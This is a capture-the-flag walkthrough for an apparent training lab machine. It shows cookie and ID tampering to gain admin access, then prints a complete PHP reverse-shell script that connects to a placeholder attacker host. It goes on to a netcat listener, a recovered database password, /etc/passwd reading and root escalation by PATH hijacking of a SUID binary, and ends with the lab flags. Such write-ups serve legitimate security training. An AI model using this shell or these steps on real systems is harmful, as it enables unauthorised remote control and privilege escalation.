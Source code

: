 ## **Machine IP**
> 10.129.93.218
## **Inference**
1. Nmap scan shows port 80 open with `Apache httpd 2.4.29 ((Ubuntu))` running on it, that means a website is being hosted on the machie
2. Used BurpSuite to access the website `http://10.129.93.218` and found `http://10.129.93.218/cdn-cgi/login`
3. Signed in as guest 
4. Changed cookie **role**->*admin* and usl **http://10.129.93.218/cdn-cgi/login/admin.php?content=accounts&id=2**->*http://10.129.93.218/cdn-cgi/login/admin.php?content=accounts&id=1*.
5. Got access id as 34322 so change cookie **user**->*34322*
6. Eureka! Got admin access.
7. Go to uploads section and upload a php reverse shell payload.
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '{ATTACKER IP}';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }

        if ($pid) {
                exit(0);  // Parent exits
        }

        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        // Check for end of STDOUT
        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }

        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }

        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }

        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?> 

```
8. Used gobuster `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.129.93.218` and found an upload directory at `http://10.129.93.218/uploads`
9. Ran a netcat listener at part 1234 `nc lvnp 1234`
10. Went to `http://10.129.93.218/uploads/php-reverse-shell.php`
11. Got a reverse shell
12. Went to `/var/www/html/cdn-cgi/login` and started lokin for an file with password and found one `db.php` with *password* `M3g4C0rpUs3r!`
13. Read `/etc/passwd` and found another user `Robert` and tried to change user to robert with `su robert`.
14. Entered the password recovered earlier and we are in.
15. Tried sudo with `sudo -l` but robert does not have sudo access.
16. Checked group of reobert with `id` and found robert to a part of the group bugtracker.
17. Lets find is there any binary within this group with `find / -group bugtracker 2>/dev/null` and found `/usr/bin/bugtracker`.
18. Checked previliges and type of file with `l -la /usr/bin/bugtracker && file /usr/bin/bugtracker` found it as a suid file with root previleges.
19. Changed directory to /tmp and create a file named `cat` with content `/bin/bash`.
20. Gave Execution previlege with `chmod +x cat`.
21. Exported path with `export PATH=/tmp:$PATH`.
22. Then executed bugtracker from `/tmp` file.
23. Entered random bug tracker id and got root bash shell.
24. Founf flag in `/root/flag.txt`

## **Result**
```
User Flag - f2c74ee8db7983851ab2a96a44eb7981
Root Flag - af13b0bee69f8a877c3faf667f7beacf
```